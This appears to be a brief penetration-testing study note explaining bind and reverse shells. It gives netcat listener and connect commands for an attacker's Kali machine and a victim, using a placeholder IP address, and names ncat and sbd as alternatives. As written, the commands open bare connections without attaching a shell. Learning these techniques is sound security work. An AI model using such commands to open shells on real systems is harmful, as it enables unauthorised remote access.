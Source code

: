 ## Bind Shell
Occurs when you have the connection come from the attacker, and the victim is the listener  
kali  
`nc -nv <ip address> 4444`  
host  
`nc -nlvp 4444`

## Reverse Shell
Occurs when the victim initiates the connection, better chance of getting through firewalls  
kali  
`nc -nlvp 4444`  
victim  
`nc -nv <ip adress> 4444`

ncat - alternative to nc which can use ssh for a secured connection

sbd - netcat clone which is portable and runs on windows
